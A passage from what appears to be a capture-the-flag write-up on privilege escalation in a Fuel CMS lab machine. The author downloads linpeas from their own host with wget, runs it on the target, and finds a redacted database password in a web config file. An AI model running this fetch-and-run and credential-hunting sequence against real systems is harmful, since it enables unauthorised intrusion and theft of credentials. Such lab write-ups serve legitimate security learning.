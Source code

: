 ## Privilege Escalation

* My first step was to try and enumerate the system for any potential attack vectors. To do this, I used the [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) script. Again, I hosted it using Python and used wget to move it into the `/tmp` directory.

```shell
$ wget http://10.6.91.228/linpeas.sh
--2022-09-05 08:56:49--  http://10.6.91.228/linpeas.sh
Connecting to 10.6.91.228:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 761415 (744K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  6%  104K 7s
    50K .......... .......... .......... .......... .......... 13%  311K 4s
   100K .......... .......... .......... .......... .......... 20%  619K 3s
   150K .......... .......... .......... .......... .......... 26%  605K 2s
   200K .......... .......... .......... .......... .......... 33%  316K 2s
   250K .......... .......... .......... .......... .......... 40% 86.6M 1s
   300K .......... .......... .......... .......... .......... 47% 68.1M 1s
   350K .......... .......... .......... .......... .......... 53%  629K 1s
   400K .......... .......... .......... .......... .......... 60%  627K 1s
   450K .......... .......... .......... .......... .......... 67% 84.8M 1s
   500K .......... .......... .......... .......... .......... 73%  661K 0s
   550K .......... .......... .......... .......... .......... 80% 78.4M 0s
   600K .......... .......... .......... .......... .......... 87%  626K 0s
   650K .......... .......... .......... .......... .......... 94% 77.3M 0s
   700K .......... .......... .......... .......... ...       100% 25.3M=1.3s

2022-09-05 08:56:52 (580 KB/s) - 'linpeas.sh' saved [761415/761415]

$ ls
VMwareDnD
linpeas.sh
systemd-private-7f482da5aeff452f9055fe003f7b8931-colord.service-uCe1YA
systemd-private-7f482da5aeff452f9055fe003f7b8931-rtkit-daemon.service-Dr0RBc
systemd-private-7f482da5aeff452f9055fe003f7b8931-systemd-timesyncd.service-7QKpsB
$ chmod +x linpeas.sh
$ ./linpeas.sh
```
* Linpeas displayed these credentials during one of the checks:

```shell
╔══════════╣ Analyzing Backup Manager Files (limit 70)
                                                                                                                             
-rwxrwxrwx 1 root root 4646 Jul 26  2019 /var/www/html/fuel/application/config/database.php
|       ['password'] The password used to connect to the database
|       ['database'] The name of the database you want to connect to
        'password' => '[REDACTED]',
        'database' => 'fuel_schema',
```
* Digging further, it appears that the credentials are in plain view within the web server folder. `config/database.php` contains these credentials:
